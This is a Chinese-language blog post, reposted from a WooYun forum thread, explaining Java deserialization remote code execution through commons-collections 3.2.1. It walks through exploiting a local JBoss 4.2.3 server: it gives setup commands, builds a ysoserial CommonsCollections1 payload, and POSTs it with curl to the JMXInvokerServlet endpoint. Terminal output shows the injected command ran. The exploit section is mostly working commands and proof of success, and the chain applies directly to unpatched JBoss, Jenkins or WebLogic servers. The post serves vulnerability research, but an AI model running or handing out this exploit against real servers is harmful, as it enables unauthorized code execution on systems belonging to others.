 轉自：http://zone.wooyun.org/content/23847

#关于java unserialize rce 一些细节和jboss rce 实践

##1:原理 
大概和php的差不多反序列化时对象注入可以造成代码执行,例如 commons-collections-3.2.1.jar 包就存在这个漏洞,所以只要使用了这个lib的都有可能rce,例如jboss,jenkins,weblogic 等。 

##2:利用方法 
有人写了一个执行命令的payload 生成器,java反射调用Runtime.getRunTime.exec 执行命令,应该也可以改成写文件之类的(未验证)。 

##3:jboss 利用实践 
#####环境 
```
yum install java-1.7.0-openjdk-devel -y 
wget -O jboss-4.2.3.zip http://sourceforge.net/projects/jboss/files/JBoss/JBoss-4.2.3.GA/jboss-4.2.3.GA-jdk6.zip/download 
unzip jboss-4.2.3.zip 
mv jboss-4.2.3.GA /usr/local/share/jboss 
adduser appserver 
chown -R appserver /usr/local/share/jboss 
su -l appserver 
cd /usr/local/share/jboss/bin 
./run.sh -b 0.0.0.0
```



#####exploit 
```
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.2/ysoserial-0.0.2-all.jar 
java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'touch /tmp/pwned' > /tmp/payload 
curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '@/tmp/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```


#####测试 
```
[root@uauc ~]# rm  -rf   /tmp/pwned 
[root@uauc ~]# ls -lh   /tmp/pwned 
ls: cannot access /tmp/pwned: No such file or directory 
[root@uauc ~]# curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '@/tmp/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet  >  1.log 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current 
                                 Dload  Upload   Total   Spent    Left  Speed 
100  5335    0  3927  100  1408  39474  14153 --:--:-- --:--:-- --:--:-- 42225 
[root@uauc ~]# ls -lh   /tmp/pwned 
-rw-rw-r-- 1 appserver appserver 0 Nov 10 15:27 /tmp/pwned
```

成功-_- 

演示图~~QQ图片20151110153639.png~~（並沒有）

##4:更多 
具体漏洞原理利用以及受影响应用还待研究,权为抛砖引玉,欢迎讨论。 


##5:参考资料 

http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#thevulnerability  
https://github.com/foxglovesec/JavaUnserializeExploits  
https://github.com/frohoff/ysoserial  

